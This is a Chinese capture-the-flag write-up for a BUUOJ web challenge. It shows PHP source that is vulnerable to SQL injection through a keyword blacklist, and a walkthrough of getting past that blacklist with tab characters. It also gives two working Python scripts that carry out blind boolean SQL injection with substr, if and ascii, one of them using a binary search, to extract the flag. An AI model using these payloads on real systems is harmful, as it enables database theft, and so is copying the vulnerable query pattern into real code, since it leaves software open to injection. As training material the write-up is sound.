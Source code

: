 >比赛结束以后采用非官方复现平台做的题，因为和比赛题有轻微不同，比赛中存放flag的table是ctf，这里是flag。

#### 题目地址
buuoj.cn

#### 解题过程

题目中只有一个页面，需要提交id。
![初始界面](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/hackworld.PNG)

id为1,2时，可以分别得到一句话。id为0时，显示error，可能是因为结果为空集。
```txt
id=1
Hello, glzjin wants a girlfriend.
id=2
Do you want to be my girlfriend?
```


id提交为单引号返回false，填入空格会直接显示SQL Injection Checked。这说明id除有过滤，空格被过滤了，但是单引号没过滤。

尝试用Tab代替空格，发现可以。

接下来根据题目中的提示构造payload：
```txt
1   union    select  flag    from    flag
```
被过滤了，直接输入一个
```txt
1   union
```
也会被过滤

这说明union也被过滤了。最后测试发现select和from，括号没有被过滤可以考虑使用函数。

有幸找到了这题的源码，在这里放一下，看看究竟过滤了啥。
```php
<?php
$dbuser='root';
$dbpass='root';

function safe($sql){
    #被过滤的内容 函数基本没过滤
    $blackList = array(' ','||','#','-',';','&','+','or','and','`','"','insert','group','limit','update','delete','*','into','union','load_file','outfile','./');
    foreach($blackList as $blackitem){
        if(stripos($sql,$blackitem)){
            return False;
        }
    }
    return True;
}
if(isset($_POST['id'])){
    $id = $_POST['id'];
}else{
    die();
}
$db = mysql_connect("localhost",$dbuser,$dbpass);
if(!$db){
    die(mysql_error());
}   
mysql_select_db("ctf",$db);

if(safe($id)){
    $query = mysql_query("SELECT content from passage WHERE id = ${id} limit 0,1");
    
    if($query){
        $result = mysql_fetch_array($query);
        
        if($result){
            echo $result['content'];
        }else{
            echo "Error Occured When Fetch Result.";
        }
    }else{
    	var_dump($query);
    }
}else{
    die("SQL Injection Checked.");
}

```

接下来就想办法借助函数构造注入就可以了。思路有很多，看过北邮大佬写的延时注入，这里说一下我的思路。

借助substr函数截取flag中的内容，长度依次增加。

用if函数判断截取出来的内容是什么，这里需要穷举。如果判断成功，返回1，否则返回2。

#### exp

```python
import requests
import time
url = "http://web43.node1.buuoj.cn/index.php"
data = {"id":""}
flag = 'flag{'
length = 5
while True:
    #直接从数字开始猜
	for i in range(48,127):
        #复现平台有waf，一秒只能访问一次
		time.sleep(1)
		#绕过一些过滤字符
		if i in [38,42,43,45,59,96]:
			continue
		data["id"] = "if(substr((select		flag		from	flag),1,{})='{}',1,2)".format(length+1,flag+chr(i)) 
		r = requests.post(url,data=data)
		#返回1
        if 'Hello' in r.text:
			flag+=chr(i)
			length+=1
			print(flag)
			break
	if flag[-1]=='}':
		break

```
这个脚本有点慢，毕竟一个个的猜。如果想快一点，猜的时候可以考虑每次猜一个字符，使用二分法。

下面这段代码稍微改了一下判断的规则，判断ascii码。这样做的好处是如果遇到过滤字符也能得到结果，如果按照最初始的版本，假设flag中包含-，那就gg了。
```python
import requests
import time
#url是随时更新的，具体的以做题时候的为准
url = 'http://40c9be7a-36f0-4e80-94ca-d1ac9e121947.node1.buuoj.cn/index.php'
data = {"id":""}
flag = 'flag{'

i = 6
while True:
#从可打印字符开始
	begin = 32
	end = 126
	tmp = (begin+end)//2
	while begin<end:
		print(begin,tmp,end)
		time.sleep(1)
		data["id"] = "if(ascii(substr((select		flag		from	flag),{},1))>{},1,2)".format(i,tmp)
		r = requests.post(url,data=data)
		if 'Hello' in r.text:
			begin = tmp+1
			tmp = (begin+end)//2 
		else:
			end = tmp
			tmp = (begin+end)//2

	flag+=chr(tmp)
    print(flag)
	i+=1
	if flag[-1]=='}':
		break

```
最后得到了flag。